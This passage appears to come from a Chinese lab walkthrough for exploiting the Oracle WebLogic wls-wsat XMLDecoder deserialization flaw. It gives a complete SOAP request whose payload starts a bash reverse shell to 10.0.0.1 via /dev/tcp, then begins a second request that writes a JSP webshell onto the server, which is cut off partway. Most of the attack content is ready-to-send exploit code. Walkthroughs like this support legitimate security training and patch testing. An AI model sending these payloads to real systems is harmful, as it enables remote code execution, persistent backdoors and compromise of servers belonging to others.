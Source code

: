 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3negbsl3j20z807qduq.jpg)

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3nlkogpjj20h805a7sc.jpg)



成功获取shell：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3nfc5v70j20j806pjry.jpg)

写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp`）：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
```